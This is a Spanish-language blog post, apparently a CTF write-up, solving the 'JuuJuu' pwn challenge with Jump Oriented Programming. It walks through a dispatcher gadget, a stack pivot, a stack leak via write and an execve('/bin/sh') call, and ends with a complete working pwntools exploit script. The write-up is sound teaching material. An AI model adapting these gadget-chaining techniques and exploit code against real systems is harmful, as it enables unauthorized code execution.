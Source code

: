 ```yaml
---
layout: post
title: WRITEUP, JuuJuu, PWNDAY#01 soluciones
date: 2020-05-23 22:11
comments: true
categories: [Sin categoría]
---
```

<!-- wp:paragraph -->
<p>Hace un tiempo el gran <a href="https://c4ebt.github.io/"><strong>c4e</strong></a><strong> </strong>me mostró un challenge que había preparado, el cual me gusto tanto que nos motivamos a hacer PWNDAY#01, donde hicimos algunos challenge pwn con diferentes dificultades, (básico-intermedio-pro), el nivel pro fue un reto de <a href="https://c4ebt.github.io/"><strong>c4e</strong></a><strong> </strong>que antes de lanzarlo obviamente me invito a que solucionara para ver la dificultad, el reto me costo MUCHO, me tomo mas de 18 horas solucionarlo parcializado en varios días (pero por que soy un un n00b :D,  y bueno también porque nunca había utilizado JOP)<br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>JOP o Jump Oriented Programming, es una técnica basada en ROP de la cual ya he hablado en este blog, pero en vez de usar un ret al final, usamos instrucciones de salto o JMP para volver a parte controlada del código con gadgets llamados dispatchers, para aprender más sobre JOP, acá hay un <a href="https://www.comp.nus.edu.sg/~liangzk/papers/asiaccs11.pdf"><strong>paper </strong></a>que explica bastante bien todo.<br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Primero comenzamos debugeando el binario, el cual podemos ver es un ejecutable x64<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh6.googleusercontent.com/d6Q0oGMfS-PO77AAuhXj_bDjisXHOyuL2WvirnjpnI6bCNhbdGx3ID_igKxv0ZRXNPv9BoymjTU0tjCM2PNkD61x6Bfb1shCVn5AaU2oKjhKTOX4CdDCUwuYyzXeyBQFDHuh_3Wr" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Observamos las protecciones del binario usando <a href="https://github.com/slimm609/checksec.sh">checksec</a><br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh3.googleusercontent.com/kUjY_aEuVv_rX8Qk50Fv_tn_cAysA1PV5lxD0oVXMfeDEb-ubnIdsjBMQ59XdZasVfVXBmO5ukWhBeNBlv3WGalFkCU_mWJfS8B0xdwR1ZNCoEdN7vTaJ1M6BFF3PtVjY01uFnsZ" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Las direcciones del binario se mantendrán debido al “flag” de “no-pie” esto nos será de ayuda ya que no debemos bypassear aslr usando gadgets dentro del binario, al observar el programa vemos que es bastante pequeno, escrtito en assembler, y con solo una funcion que lee</p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh4.googleusercontent.com/0kaKbB3JMAlNESHFraL0R2JMDyIcFUsfu9ERXa_v4MjKlQ45he6vXNH5ZkUuhWWiQDUHVTRaeXJwqRViwWYXjLmuvPE5Y1AtZT0tXeikVgDiTjIl-hqcP7Ifi_mN65MkQQrPqalc" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Ademas ya podemos observar que no hay aparentes instrucciones ret lo cual podemos comprobar ejecutando ropper y/o objdump</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Además todos los saltos son a registros “dereference” ([reg]), por lo cual no podemos hacer, por ejemplo, un pop RCX y luego saltar a RCX, ya que el salto será a [RCX], por lo cual debemos ver la forma de filtrar alguna direccion del stack para poder calcular los offsets a cada registro.<br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Para nuestra suerte tenemos un primer gadget que podemos usar como dispatcher y es la dirección 4000c7, la cual suma 8 a RSP y luego salta al dereference de RSP-0x8 por tanto nos permitirá saltar a la dirección que pongamos antes en nuestro payload, por lo que la enviaremos de la siguiente forma:<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh3.googleusercontent.com/F9dYG3ZVDfsbgMbngSVOlZ3jcO7bJWki760g4WTijbBFs8SEzf-64e5pcQEjV1Zv-OepNs1gDlp_h7pV6gPHIATpkzsmuJenBnSc0EJsMhulp1KCBzr4FR755cBDazLU29r3rJns" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Usamos la direccion 4000d4 como salto ya que dicha dirección contiene un push de RSP que empujara la dirección de RSP al stack y nos permitirá controlar el salto a RCX ya que RCX contendrá la dirección del stack donde se encuentra ADD RSP + 8 ; JMP [rsp-0x8]<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh3.googleusercontent.com/Y8O0LSbcwXYc4szVnE4RolzZlBhukS0e2OS2h1UUfdseLoHFRLVUXHDchdBo00pIYGxdALhS2MKi4wdA1jhVKZHpebRgDlAscHHOJirhg23PWfg8DycDSL-vp_6j22-KWeA73Odo" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Con esto ya podemos setear nuestro dispatcher en [RCX]&nbsp; y aprovechando el vuelo usando los gadgets lo seteamos a RBP y r10 (ya que el código lo permite). Ahora cualquier instrucción que pongamos se ejecutará, siempre cuando tenga un salto a [RCX]. [RBP] o [r10]<br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Ahora nos topamos con otro obstáculo! El stack es muy pequeño, qué podemos hacer? Pivotear!, pues para eso usaremos la instrucción en 400131 la cual le resta 0x100 al stack con esto haremos un salto atrasa 32 bytes de nuestro salto inicial<br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Seteamos el dispatcher nuevamente a RCX y ahora ejecutamos el syscall de write, para que write? Pues dado que no tenemos idea de donde encontrar nuestro stack para poder hacer una llamada a los registros sin tener que forzosamente dar cero a RAX (otro problema), pues debemos lekear una dirección del stack, para esto usaremos write y escribiremos el leak al stdout para leerlo. Con esto el programa se ejecutara de nuevo, pero esta vez tendremos la dirección del stack a nuestro alcance para hacer los cálculos de gadgets correspondientes</p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh6.googleusercontent.com/cBSsS9AVRUBSYndiDIdGjS0v5McYASHa56xbTweIjzyG3FUd7X3QKaA8yI94IvlYStMiDjGQoYKNotT2kPj_C1X1mXTFbD1jt4rkG11WB4os3r7h2ZclZtUWW9QCTBPOynhLtfBM" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Perfecto ya con este leak podemos comenzar a preparar nuevamente el exploit repitiendo los primeros pasos pero esta vez en vez de llamar a write, jugaremos con los valores de los registros para poder llamar a execve() con el offset desde nuestro leak al string de /bin/sh que enviaremos al comienzo del payload<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh4.googleusercontent.com/Vz3Yx0E-cTm9H9vsDHSqP821bBOOLmM_IHnLHAEbFj5u4dn9vegw4aJmMYE7hMU0HxiSkJnFvAuf-Xuo8cT9hPlEQhtf0LbpdQQ_e5oSlVykw2t2g_7LfJ0HKQMS4TiXd84u7e8d" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Perfecto y ejecutamos y SHELL<br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Disfrute mucho este reto, siento que cuando uno se ve atrapado es cuando uno más aprende, de verdad felicitaciones nuevamente al creador del reto. EL resto de solucioens pueden verlas en mi github</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p><a href="https://github.com/dplastico/pwnday01">https://github.com/dplastico/pwnday01</a></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Aca les dejo el exploit final:</p>
<!-- /wp:paragraph -->

<!-- wp:code -->
<pre class="wp-block-code"><code>from pwn import *

#0x4000c5 syscall
#offset 2 24
r = process('./juujuu')
#gdb.attach(r)
#r = remote('159.89.45.52', 5555)
empezando = "/bin/sh\0" #controlamos este registro, rsi

#stage 1
#------------------------------------------------------------#
#construyendo salto atras
jop = "A" * 24
#saltando a rsp +8 , [rsp-8]
jop += p64(0x4000d4)
jop += p64(0x4000c7)
#write syscall para hacer un leak del stack
jop += p64(0x4000fc)
jop += p64(0x004000b0)

junk = "A" * (cyclic_find('qaac')-len(empezando)-8-len(jop))                        
payload = empezando                                                               
payload += jop                                                                      
payload += junk

#seteando [rcx] a dispatcher                                                    
payload += p64(0x4000d4)                                                   
payload += p64(0x4000c7)

#[rbp] a dispatcher
payload += p64(0x00000000004000cf)

#setear r10 a dispatcher, por que si no mas
payload += p64(0x4000ec)

#mas stack (pivot)                                                      
payload += p64(0x0000000000400131)#sub rsp 100                                  
r.sendline(payload)

#--------------------------------------------------------#

#stage2
#recibiendo leak del stack
resp = u64(r.recv(8))
print "LEAK  STACK  :   ",hex(resp)

#seteando salto atras para syscall final execve()
jop2 = "A" * 32
#
jop2 += p64(0x4000de) #inc RAX
jop2 += p64(resp)#restaurando rcx
jop2 += p64(0x4000de) #inc RAX
jop2 += p64(resp)#restaurando rcx
jop2 += p64(0x4000de) #inc RAX
jop2 += p64(resp)#restaurando rcx
jop2 += p64(0x400108)#add rax 12
jop2 += p64(0x400108)#add rax 12
jop2 += p64(0x400108)#add rax 12
jop2 += p64(0x400125)
jop2 += p64(resp-0x1c8) #address the bin sh enviada esta 0x1c8 del leak de stack
jop2 += p64(0x40011b)# xor los otros reg
jop2 += p64(resp)
jop2 += p64(0x400101) #syscall

junk = "A" * (cyclic_find('qaac')-len(empezando)-8-len(jop2))                                             
payload2 = empezando  #/bin/sh                                                               
payload2 += jop2                                                                     
payload2 += junk
#seteando [rcx] a dispatcher                                                   
payload2 += p64(0x4000d5) #rax a 0x0 y luego a 0x1                                                  
payload2 += p64(resp)#restaurando rcx
payload2 += p64(0x4000de) #inc RAX
payload2 += p64(resp)#restaurando rcx
#ganando stack
payload2 += p64(0x0000000000400131)#sub rsp 100                                            
r.sendline(payload2)

r.interactive()
</code></pre>
<!-- /wp:code -->
